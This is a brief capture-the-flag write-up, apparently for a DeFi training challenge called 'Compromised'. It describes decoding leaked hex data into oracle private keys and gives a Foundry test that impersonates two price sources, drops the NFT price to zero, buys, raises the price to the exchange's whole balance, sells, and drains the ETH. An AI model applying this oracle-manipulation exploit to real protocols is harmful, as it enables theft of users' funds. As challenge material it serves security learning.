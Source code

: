 # Compromised
Decode the data and get the key by which we can get access to sources.

![hex to ascii](image.png)

![output private-key](image-1.png)

To keep it simple, vm.startPrank(sources[0]) is used;

```
function test_compromised() public checkSolved {
        Compromised exploit = new Compromised{value:address(this).balance}(oracle, exchange, nft, recovery);
        setPrice(0);
        exploit.buy();
        setPrice(EXCHANGE_INITIAL_ETH_BALANCE);
        exploit.sell();
        exploit.recover(EXCHANGE_INITIAL_ETH_BALANCE);
    }

    function setPrice(uint price) internal {
        vm.startPrank(sources[0]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
        vm.startPrank(sources[1]);
        oracle.postPrice(symbols[0],price);
        vm.stopPrank();
    }
```